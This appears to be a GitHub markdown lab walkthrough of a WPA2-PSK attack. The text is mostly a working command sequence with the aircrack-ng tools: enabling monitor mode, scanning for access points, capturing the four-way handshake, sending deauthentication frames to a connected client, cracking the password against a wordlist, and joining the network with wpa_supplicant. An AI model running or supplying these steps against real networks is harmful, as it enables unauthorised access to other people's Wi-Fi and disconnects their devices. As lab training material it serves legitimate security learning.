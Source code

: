 
# 🛡️ WPA2-PSK Attack
## Time to perform the attack: 7 minutes

## ⚙️ Initial Setup

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Monitor mode enabled on `wlan0mon`.

---

## 🔍 Scan for Targets

Since WPA2 works both on 2,4Ghz and 5Ghz, check what access points (APs) are active on those frequencies.

**To recognize them check for WPA2-PSK and Cipher CCMP**

```bash
sudo airodump-ng  --band abg wlan0mon
```

From here, identify
- BSSID
- Channel
- ESSID
- Clients

Use TAB and M key to highlight the each APs in order to check also associated clients. 

Ideally we want to attack some AP that has already clients connected to it.

Finally, check the channel where the AP is working and run again to get a cleaner output 

```bash
channel=6
sudo airodump-ng -c ${channel} wlan0mon
```

---

## 🎯 Capture Handshake

It's time to Capture the Handshake and for this we'll capture an **authentication handshake**.

**NOTE:** **WPA2 doesn’t reuse IVs as WEP does**. It uses a secure 4-way handshake to derive session keys.

The attack focuses on capturing this handshake, which occurs only when a client **connects** to the network.

The handshake contains hashed information that can be brute-forced **offline** if the password is weak.

So, we send deauthentication frames to a connected client. The client is forced to disconnect and reconnect. The handshake is captured. BOOM!

📌 It's important to understand that deauth doesn’t flood traffic; it simply forces a re-authentication to trigger the handshake.

Let's do it:

```bash
mkdir WPA2
cd WPA2
channel=6
dumpfile='dump-wpa'
bssid='F0:9F:C2:71:22:12'
client='28:6C:07:6F:F9:43'
essid='wifi-mobile'

sudo airodump-ng -c ${channel}  -w ${dumpfile} --output-format pcap,csv --essid ${essid} --bssid ${bssid} wlan0mon
```
Keep this running! **You're sniffing for the WPA handshake**.

---

## 💣 Force Handshake with Deauth

In a second terminal tab.
Send a deauthentication frame to the choosen client.
In this case it will try to re-authenticate again during our capture.

```bash
bssid='F0:9F:C2:71:22:12'
client='28:6C:07:6F:F9:43'
essid='wifi-mobile'

sudo aireplay-ng -0 1 -e ${essid} -a ${bssid} -c ${client}  wlan0mon
```
This forces the client to disconnect and reconnect, generating the handshake.
At this point come back to terminal 1 and check if a WPA handshake is captured.

---

## 👁️ Confirm Handshake

In the top-right corner of `airodump-ng`output, look for:

```bash
WPA handshake: <BSSID>
```

If you get it, press CTRL+C to stop airodump. 
Also, stop monitoring on wlan0mon:

```bash
sudo airmon-ng stop wlan0mon
```
---

## 🔓 Crack the Password

```bash
wordlist='/usr/share/john/password.lst'
dumpfile='dump-wpa'
bssid='F0:9F:C2:71:22:12'
essid='wifi-mobile'

aircrack-ng -w ${wordlist} -e ${essid} -b ${bssid} ${dumpfile}-01.cap
```

**Substitute `john wordlist` with rockyou.txt if needed.**

---

## 🔌 Connect Using wpa_supplicant

### wpa2.conf

Let's create a network configuration file.

```bash
wpa_key='starwars1'
bssid='F0:9F:C2:71:22:12'
essid='wifi-mobile'

cat << EOF > /tmp/wpa.conf
  network={
         ssid="${essid}"
         key_mgmt=WPA-PSK
         psk="${wpa_key}"
         priority=100
         bssid=${bssid}
        }
EOF
```
We'll use this network configuration file with the tool ‘wpa_suppliant’ and connect to the target WPA2 network.

### Launch connection

In one terminal:
```bash
sudo wpa_supplicant -i wlan0 -c /tmp/wpa.conf
```

In another terminal:
```bash
sudo dhclient wlan0 -v
```
---

## ✅ Confirm Network Access

```bash
target=192.168.2.1
curl http://${target}/proof.txt
```

Look for an assigned `inet` IP like:

```
inet 192.168.2.48/24 brd 192.168.2.255 scope global dynamic wlan0
```

You're inside the network.

---

Next up: PMKID attacks, hashcat brute force, or rogue APs. Your call.
